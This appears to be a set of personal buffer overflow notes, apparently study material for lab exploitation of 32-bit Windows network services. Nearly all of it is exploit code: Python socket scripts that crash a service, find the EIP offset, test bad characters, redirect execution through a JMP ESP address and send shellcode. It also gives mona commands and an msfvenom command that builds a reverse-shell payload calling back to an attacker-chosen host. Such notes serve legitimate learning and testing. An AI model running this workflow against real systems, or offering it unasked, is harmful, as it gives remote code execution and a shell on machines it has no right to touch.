 # BufferOverflow Notes
Thanks to Legacyy for being a great teacher! Please check out his buffer overflow guide!  
[Legacyy](https://github.com/iilegacyyii)  
[Legacyy's cheat sheet](https://github.com/iilegacyyii/x32-BOF-Notes)  

### 1 - Creating a socket to test the program.

```python
import socket
import struct

HOST = "<IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

buf = b""
buf += b"<FUNC> "
buf += b"A"*1000

s.send(buf)
print(s.recv(1024))
```

### 2 - Creating your cyclic pattern and overwriting your EIP

```
msf-pattern_create -l 1234
```
```
msf-pattern_offset -q <EIPAddress>
```

```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

cyclic_pattern = b"AddCyclicPattern"

buf = b""
buf += b"<FUNC> "
buf += cyclic_pattern

s.send(buf)
print(s.recv(1024))
```

### 3 - Testing for bad characters



```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

badchar_test = ""
badchars = [0x00] 

for i in range(0x00, 0xFF + 1): # range(0x00, 0xFF) only returns up to 0xFE
        if i not in badchars:
                badchar_test += chr(i)

with open("badchars.bin", "wb") as f:
    f.write(badchar_test)

offset = <OFFSET>

buf = b""
buf += b"<FUNC> "
buf += "A" * offset
buf += b"BBBB"
buf += badchar_test

s.send(buf)
print(s.recv(1024))
```

### 4 - Finding your JMP ESP

```
!mona compare -a esp -f "c:\path\to\badchars.bin"
```

```
!mona jmp -r esp -cpb "\x00\x0A"
```

### 5 - Testing command execution

```python
import socket
import struct

HOST = "<IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

#bad characters <AddBadCharactersHere> 
offset = <OFFSET>
jmp_esp = struct.pack("<I", 0xJMPADDRESS)

buf = b""
buf += b"<FUNC> "
buf += b"A" * offset
buf += jmp_esp
buf += b"\xCC\xCC\xCC"

s.send(buf)
print(s.recv(1024))
```

```
msfvenom -p windows/exec -b '\x00\x0A' -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```

```
msfvenom -p windows/shell_reverse_tcp -b '\x00\x0A' -f python --var-name shellcode_shell LHOST="<IP>" LPORT=<PORT> EXITFUNC=thread
```

```python
import socket
import struct

HOST = "<Remote IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

shellcode_calc =  b""
shellcode_calc += b"<ShellcodePayload>"

#bad characters <AddBadCharactersHere> 
offset = <OFFSET>
jmp_esp = struct.pack("<I", 0xJMPADDRESS)

buf = b""
buf += b"<FUNC> "
buf += b"A" * offset 
buf += jmp_esp
buf += b"\x90" * 100
buf += shellcode_calc

s.send(buf)
print(s.recv(1024))
```
